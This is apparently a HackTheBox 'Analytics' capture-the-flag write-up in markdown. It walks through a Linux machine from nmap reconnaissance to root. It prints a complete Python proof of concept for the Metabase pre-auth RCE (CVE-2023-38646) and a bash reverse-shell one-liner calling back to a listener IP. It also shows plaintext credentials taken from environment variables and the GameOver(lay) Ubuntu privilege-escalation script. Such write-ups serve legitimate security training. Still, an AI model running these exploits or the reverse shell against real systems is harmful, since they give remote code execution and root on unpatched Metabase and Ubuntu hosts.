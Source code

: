 ```yaml
---
title: Analytics
tags:
  - HackTheBox
  - Easy
  - Linux
  - Metabase
  - Ubuntu
  - GameOverlay
---
```

![](Pasted%20image%2020241105225943.png)

## Reconnaissance

First, I added the new host to my known ones:

```shell
sudo echo "10.10.11.233 analytical.htb" | sudo tee -a /etc/hosts
```

Then, I performed a Nmap scan:

```shell
nmap -sC -T4 -p- analytical.htb > sC.txt

[redacted]
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http
|_http-title: Analytical
```

So I checked its webpage:

![](Pasted%20image%2020241105230243.png)

I tried to check the login but I needed to add the subdomain `data.analytical.htb`:

![](Pasted%20image%2020241105230747.png)

After adding it, we get a Metabase login:

![](Pasted%20image%2020241105230942.png)

## Weaponization

I searched for "*Metabase exploit*" in google and found [CVE-2023-38646 Poc](https://github.com/m3m0o/metabase-pre-auth-rce-poc).
- You could also try [This exploit](https://www.exploit-db.com/exploits/51797)

```python
from argparse import ArgumentParser
from string import ascii_uppercase

import base64
import random
import requests


def encode_command_to_b64(payload: str) -> str:
    encoded_payload = base64.b64encode(payload.encode('ascii')).decode()
    equals_count = encoded_payload.count('=')

    if equals_count >= 1:
        encoded_payload = base64.b64encode(f'{payload + " " * equals_count}'.encode('ascii')).decode()

    return encoded_payload


parser = ArgumentParser('Metabase Pre-Auth RCE Reverse Shell', 'This script causes a server running Metabase (< 0.46.6.1 for open-source edition and < 1.46.6.1 for enterprise edition) to execute a command through the security flaw described in CVE 2023-38646')

parser.add_argument('-u', '--url', type=str, required=True, help='Target URL')
parser.add_argument('-t', '--token', type=str, required=True, help='Setup Token from /api/session/properties')
parser.add_argument('-c', '--command', type=str, required=True, help='Command to be execute in the target host')

args = parser.parse_args()

print('[!] BE SURE TO BE LISTENING ON THE PORT YOU DEFINED IF YOU ARE ISSUING AN COMMAND TO GET REVERSE SHELL [!]\n')

print('[+] Initialized script')

print('[+] Encoding command')

command = encode_command_to_b64(args.command)

url = f'{args.url}/api/setup/validate'

headers = {
    "Content-Type": "application/json",
    "Connection": "close"
}

payload = {
    "token": args.token,
    "details": {
        "details": {
            "db": "zip:/app/metabase.jar!/sample-database.db;TRACE_LEVEL_SYSTEM_OUT=0\\;CREATE TRIGGER {random_string} BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('bash -c {{echo,{command}}}|{{base64,-d}}|{{bash,-i}}')\n$$--=x".format(random_string = ''.join(random.choice(ascii_uppercase) for i in range(12)), command=command),
            "advanced-options": False,
            "ssl": True
        },
        "name": "x",
        "engine": "h2"
    }
}

print('[+] Making request')

request = requests.post(url, json=payload, headers=headers)

print('[+] Payload sent')
```

## Exploitation

First, we must get the setup token (can be obtained under `/api/session/properties` endpoint):

![](Pasted%20image%2020241105231409.png)

In my case it's `249fa03d-fd94-4d5b-b94f-b4ebf3df681f`.

Then I executed the script like:

```shell
python3 main.py -u http://data.analytical.htb -t 249fa03d-fd94-4d5b-b94f-b4ebf3df681f -c "bash -i >& /dev/tcp/10.10.14.24/666 0>&1"
```

> Now we've got a reverse shell :D

![](Pasted%20image%2020241105231829.png)

## Lateral Movement

It seems that we are inside a container:

![](Pasted%20image%2020241105232148.png)

We can also see a `metabase.db` database, which could hide some credentials.

If we run `printenv` we can see the variables that were set:

```shell
printenv

[redacted]
META_USER=metalytics
META_PASS=An4lytics_ds20223#
```

> Now we've got credentials (that worked via ssh on the host machine :D). We can now read user flag!

![](Pasted%20image%2020241105232944.png)

## Privilege Escalation

We can obtain the kernel version of the OS with `uname -a`:

```shell
uname -a

Linux analytics 6.2.0-25-generic #25~22.04.2-Ubuntu SMP PREEMPT_DYNAMIC Wed Jun 28 09:55:23 UTC 2 x86_64 x86_64 x86_64 GNU/Linu
```

So as it is an Ubuntu, we can check the version of it and the release with `lsb_release -a`:

```shell
lsb_release -a

No LSB modules are available.
Distributor ID: Ubuntu
Description:    Ubuntu 22.04.3 LTS
Release:        22.04
Codename:       jammy
```

So if we search for "*Ubuntu jammy exploit*" we find [CVE-2023-32629](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629), also called **GameOver(lay)**:

```shell
#!/bin/bash

# CVE-2023-2640 CVE-2023-3262: GameOver(lay) Ubuntu Privilege Escalation
# by g1vi https://github.com/g1vi
# October 2023

echo "[+] You should be root now"
echo "[+] Type 'exit' to finish and leave the house cleaned"

unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("cp /bin/bash /var/tmp/bash && chmod 4755 /var/tmp/bash && /var/tmp/bash -p && rm -rf l m u w /var/tmp/bash")'
```

> If we execute it we become root and can read root flag :D

![](Pasted%20image%2020241105235102.png)

==Machine pwned!==

